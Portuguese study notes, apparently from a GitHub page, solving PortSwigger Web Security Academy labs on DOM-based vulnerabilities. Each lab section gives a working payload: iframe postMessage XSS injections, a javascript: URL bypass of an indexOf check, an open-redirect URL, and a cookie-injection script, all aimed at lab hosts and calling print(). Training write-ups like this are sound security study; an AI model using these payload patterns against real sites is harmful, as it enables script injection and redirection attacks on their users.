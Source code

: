 # Vulnerabilidades DOM-Based

Para identificar essas vulnerabilidades é recomendado utilizar o Browser da PortSwigger com a extensão que identifica esse tipo de exploração.

Também pode-se identificar analisando o código fonte, principalmente de arquivos JavaScript.

<br>

## Laboratórios

**DOM XSS using web messages**

Perceba que a página home contém a função `addEventListener()` que espera uma mensagem web.

Envie isso para a vítima atrás do exploit server:
```
<iframe src="//0a8100fe032e3917c66ead67003c0020.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

<br>
<br>

**DOM XSS using web messages and a JavaScript URL**

O JavaScript contém uma checagem falha usando indexOf() que verifica apenas pelas palavras `http:` ou `https:` em qualquer lugar da mensagem web.
```
<iframe src="https://0a2d00d604a3acfbc67064610056003c.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```

<br>
<br>

**DOM XSS using web messages and JSON.parse**
```
<iframe src="https://0a03009c03110946c0d1aea2003700e0.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

<br>
<br>

**DOM-Based Open Redirection**

Esse é o código-fonte vulnerável:
```
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
```

Exploit:
```
https://0ae900830459749cc2465788006000b5.web-security-academy.net/post?postId=7&url=https://exploit-0ab30006040d744dc2a7561101df00f9.exploit-server.net/exploit#
```

<br>

**DOM-Based Cookie Manipulation**
Observe que a aplicação utilize um cookie no client-side chamado `lastViewedProduct` que tem como valor a URL do último produto que o usuário visitou.

```
<script>
document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

Exploit:
```
<iframe src="https://0a1100e803937b60c6874ab7003b00b5.web-security-academy.net/product?productId=1&'><script>print()</script>">
```
